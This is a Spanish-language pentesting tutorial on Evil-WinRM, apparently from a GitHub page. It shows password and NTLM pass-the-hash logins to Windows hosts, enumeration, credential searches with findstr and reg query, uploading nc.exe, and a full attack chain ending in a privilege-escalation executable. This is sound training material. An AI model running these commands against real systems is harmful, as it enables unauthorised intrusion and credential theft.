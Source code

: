 ## Descripción
Evil-WinRM es una herramienta que permite interactuar con Windows Remote Management (WinRM), un servicio de administración remota en máquinas Windows. Es especialmente útil en pentesting, ya que permite ejecutar comandos, subir y descargar archivos, y obtener una sesión interactiva en el sistema de destino.

## Uso Básico en Hacking Ético
1. **Conexión a un Servidor Windows con Credenciales**
Si tenemos acceso a un usuario y su contraseña (o hash NTLM), podemos conectarnos así:
```bash
evil-winrm -i <IP_VICTIMA> -u <USUARIO> -p <CONTRASEÑA>
```
Ejemplo:
```bash
evil-winrm -i 10.10.10.100 -u administrator -p 'P@ssw0rd'
```

También es posible autenticarse con un hash NTLM:
```bash
evil-winrm -i <IP_VICTIMA> -u <USUARIO> -H <HASH_NTLM>
```
Ejemplo:
```bash
evil-winrm -i 10.10.10.100 -u administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
```

2. **Enumeración del Sistema**
Una vez dentro, podemos obtener información sobre el sistema:
```bash
whoami                  # Ver el usuario actual
hostname                # Nombre del host
ipconfig                # Información de red
systeminfo              # Información del sistema operativo
```

Para listar los usuarios en la máquina:
```bash
net user                # Ver usuarios locales
net localgroup admins   # Ver administradores
```

3. **Subida y Descarga de Archivos**
Podemos transferir archivos entre nuestra máquina y la víctima:
- Subir un archivo:
```bash
upload <archivo_local> <ruta_remota>
```
Ejemplo:
```bash
upload nc.exe C:\Users\Public\nc.exe
```

- Descargar un archivo:
```bash
download <ruta_remota> <archivo_local>
```
Ejemplo:
```bash
download C:\Users\victim\Desktop\flag.txt flag.txt
```

4. **Escalada de Privilegios**
Si estamos en un usuario no privilegiado, podemos buscar credenciales o vulnerabilidades:
- Buscar credenciales en la memoria:
```bash
findstr /si password *.txt
```
```bash
reg query HKLM /f "password" /t REG_SZ /s
```

- Ejecutar exploits de escalada de privilegios:
Si encontramos un exploit, podemos subirlo y ejecutarlo con `upload` y luego lanzarlo desde la shell de WinRM.

## Ejemplo de Ataque Completo
1. Conectamos con Evil-WinRM:
```bash
evil-winrm -i 10.10.10.100 -u admin -p 'SuperSecure123'
```
2. Enumeramos usuarios y privilegios:
```bash
whoami
net user
```
3. Buscamos credenciales en archivos:
```bash
findstr /si password *.txt
```
4. Subimos un ejecutable de escalada de privilegios:
```bash
upload PrivEsc.exe C:\Users\Public\PrivEsc.exe
```
5. Ejecutamos el exploit:
```bash
C:\Users\Public\PrivEsc.exe
```

## Conclusión
Evil-WinRM es una herramienta esencial en pentesting contra sistemas Windows, proporcionando una shell interactiva segura y funcionalidades avanzadas de manipulación de archivos y ejecución de comandos.
